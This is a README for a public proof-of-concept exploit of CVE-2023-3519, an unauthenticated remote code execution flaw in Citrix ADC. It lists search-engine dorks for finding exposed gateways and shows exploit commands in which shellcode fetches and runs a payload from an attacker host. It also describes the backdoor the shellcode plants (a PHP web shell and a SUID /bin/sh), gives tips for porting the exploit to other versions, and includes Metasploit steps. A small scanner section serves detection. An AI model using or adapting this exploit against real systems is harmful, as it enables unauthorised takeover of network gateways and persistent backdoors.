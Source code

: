 # CVE-2023-3519

![](https://img.shields.io/static/v1?label=Product&message=Citrix%20ADC&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Citrix%20VPX%2013.1-48.47&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Remote%20Code%20Execution&color=red)



This exploit uses addresses and shellcode for Citrix VPX 13.1-48.47. For the full writeup, click [here](https://bishopfox.com/blog/analysis-exploitation-cve-2023-3519).
 - Shodan dork:
```
title:"NetScaler AAA","Citrix Gateway","NetScaler Gateway"
```
- [Hunter](https://hunter.how/) dork:
```
product.name="NetScaler AAA"
```
```
product.name="Citrix Access Gateway"
```

### Scanner
```
# Check a single URL
python3 scanner.py --url https://example.com

# Check multiple URLs from a file
python scanner.py --file urls.txt

# Check multiple URLs from a file and check for IOCs
python scanner.py --file urls.txt --ioc-check
```
You can also use the [template for nuclei.](https://github.com/SalehLardhi/CVE-2023-3519)

### Usage exploit
NASM is required to build the shellcode. 
```
$ sudo apt install nasm
```

The included shellcode will download and run a shell script from a remote http(s) server. The script takes 3 arguments: the target host, the target port, and the URL of a shell script payload. An example payload which runs `id` and `uname -a` before cleaning up after itself is included in this repo. 

```
$ echo 'id' > a
$ python3 -m http.server &
$ python3 exploit.py target.com 443 attack.er:8000/a
```
The URL must be short enough to fit in the shellcode buffer, and you will get a warning if it is too long. 

### Shellcode artifacts
The shellcode will create a PHP backdoor in `/var/netscaler/logon/a.php` and set the SUID bit on `/bin/sh`. The included `sh` payload shows an example of automatically cleaning up these artifacts. Also note that the shellcode does not close its file descriptors, so excessive repeated exploitation may result in resource exhaustion. 

### Adapting to other versions
For FreeBSD-based Citrix targets, you should only need to find 3 values: the offset of the saved return pointer, a `jmp rsp` ROP gadget (or something equivalent, such as `push rsp; ret;`), and the address to jump to in order to avoid a crash. These parameters are all hardcoded near the top of `cve-2023-3519.py`.

### Metasploit Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Citrix%20ADC%20RCE%20CVE-2023-3519/citrix_formssso_target_rce.rb
```
```
cp citrix_formssso_target_rce.rb /usr/share/metasploit-framework/modules/exploits/freebsd/http/
```
```
msfdb reinit; msfconsole -q
```
```
msf6 > use exploits/freebsd/http/citrix_formssso_target_rce.rb
```
```
msf6 exploit(freebsd/http/citrix_formssso_target_rce) > set rhosts target_IP
msf6 exploit(freebsd/http/citrix_formssso_target_rce) > set lhost attacker_IP
msf6 exploit(freebsd/http/citrix_formssso_target_rce) > run
```
